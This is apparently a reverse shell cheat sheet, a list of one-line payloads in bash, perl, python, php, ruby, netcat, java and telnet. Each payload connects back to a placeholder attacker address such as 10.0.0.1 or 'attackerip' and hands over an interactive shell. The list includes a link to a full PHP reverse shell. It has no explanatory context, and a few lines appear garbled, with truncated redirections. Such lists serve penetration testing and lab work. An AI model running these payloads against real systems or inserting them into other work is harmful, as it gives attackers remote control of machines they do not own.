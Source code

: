 #bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

#bash alt
exec /bin/bash 0&0 2>&0

#bash alt 2
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

#bash alt 3
exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:
while read line 0<&5; do $line 2>&5 >&5; done

#perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

#perl alt
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

#perl on windows
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

#python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#full php shell page can be found here: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

#ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

#ruby that doesn't depend on /bin/sh
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

#ruby on windows
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

#netcat
nc -e /bin/sh 10.0.0.1 1234

#netcat alt
nc -c /bin/sh attackerip 4444

#netcat alt 2
/bin/sh | nc attackerip 4444

#netcat alt 3
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p

#wrong version of netcat
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

#java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

#telnet
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p

#telnet alt
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445   # Remember to listen on your machine also on port 4445/tcp
